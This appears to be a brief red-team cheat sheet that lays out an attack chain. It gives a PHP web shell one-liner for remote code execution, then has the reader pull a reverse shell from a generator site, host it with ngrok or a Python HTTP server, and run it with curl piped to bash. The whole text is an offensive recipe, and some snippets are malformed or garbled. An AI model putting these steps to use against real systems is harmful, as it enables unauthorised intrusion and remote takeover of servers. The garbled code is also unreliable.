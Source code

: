 #Red-Team #Generation #Payload 


## Online

#### First get the RCE with `<?php system($_GET['cmd']); >` or `<?php system('whoami') ?>` then get the reverseshell from **resh.vercel.app/IP:Port**. Paste in a File that you host with *ngrok* per port **80** or **443**. Access the File at the end with `curl ngrok:123412/idk|bash`


## Offline 

#### First get the RCE with `<?php system($_GET['cmd']); >` then get the reverseshell from **resh.vercel.app/IP:Port**. Paste in a File that you host with ``python3 -m http.server 80`` then access it with `http://10.10.xx.xx/x|bash`